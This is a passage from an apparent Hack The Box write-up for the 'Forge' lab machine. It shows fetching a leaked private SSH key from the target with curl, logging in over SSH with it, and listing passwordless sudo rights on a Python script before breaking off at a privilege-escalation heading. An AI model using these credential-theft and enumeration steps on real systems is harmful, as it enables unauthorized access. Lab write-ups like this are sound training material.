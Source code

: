 save to a file and log into the box!

```bash
$curl http://forge.htb/uploads/vpvXtZ8Zg23TzGCNcRal > user_id_rsa

$chmod 600 user_id_rsa

$ssh -i user_id_rsa user@forge.htb
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 27 Jan 2022 05:41:55 PM UTC

  System load:  0.0               Processes:             218
  Usage of /:   43.8% of 6.82GB   Users logged in:       0
  Memory usage: 21%               IPv4 address for eth0: 10.10.11.111
  Swap usage:   0%


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Aug 20 01:32:18 2021 from 10.10.14.6
user@forge:~$ ls
snap  user.txt
```

# Where to begin
Whenever I get onto an HTB box I try to poke around as much as I can manually before running a tool such as Linpeas. I do this because Linpeas makes a lot of noise, and sometimes the vulnerablity is easy to find. This is one such case. sudo -l shows us that we can run remote-manage.py as sudo without a password. So, this is where I started my attack.

```bash
$ sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```

# Priv Esc
